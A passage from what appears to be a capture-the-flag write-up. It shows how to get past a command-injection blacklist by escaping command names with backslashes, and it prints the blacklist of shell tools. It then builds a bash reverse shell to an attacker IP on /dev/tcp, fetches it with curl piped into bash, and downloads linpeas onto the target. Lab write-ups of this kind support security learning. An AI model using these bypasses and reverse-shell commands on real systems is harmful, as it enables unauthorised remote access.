 it executed successfully and list the files and directories out in the response. With this, we have successfully bypassed the filtering.

Next, we can look at php file running the commands and see what other commands are blacklisted by script,

```bash
c\at index.php
```

![image](https://user-images.githubusercontent.com/67465230/187365493-6fbdaeb7-47da-497f-99a2-4a3eaf435027.png)

There are some commands which are filtered,

```bash
nc, python, bash, php, perl, rm, cat, head, tail, python3, more, less, sh, ls
```

These words are mostly used to get reverse shells on any system. But we now have to bypass the restriction.

Creating a one-liner bash shell file named shell.sh,

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.9.2.168/4444 <&1'" > shell.sh
```

Next we need to start a server using `python3 -m http.server` and also start a listener so that it can catch a connection `nc -nvlp 4444`.

Now, we can download the script using curl command and piped it's contents over to bash using command below,

```bash
curl http://10.9.2.168:8000/shell.sh | b\ash
```

>The importance of using bash was to ensure that the file doesn’t get saved on the disk and this comes in handy when you can’t write to the location where the script is running since the downloaded contents are automatically passed to a bash instance.

After we executed the command, we had the shell waiting for us,

![image](https://user-images.githubusercontent.com/67465230/187366960-b5d31ba2-c137-4ab8-94a9-ec76b9c3ddba.png)

Now, let's start a server using `python3 -m http.server` and we need to download the linpeas script on remote machine and make it executable,

```bash
wget http://10.9.2.168:8000/linPEAS -O linpeas.sh
chmod +x linpeas.sh
```

Let's run the script using `./linpeas.sh` and after scrolling down there are 2 things which seems interesting:

1. There was a port,9001 that was only exposed to localhost

![image](https://user-images.githubusercontent.com/67465230/187367991-dc50a1f7-7113-4619-9b8d-b0749160ec3f.png)
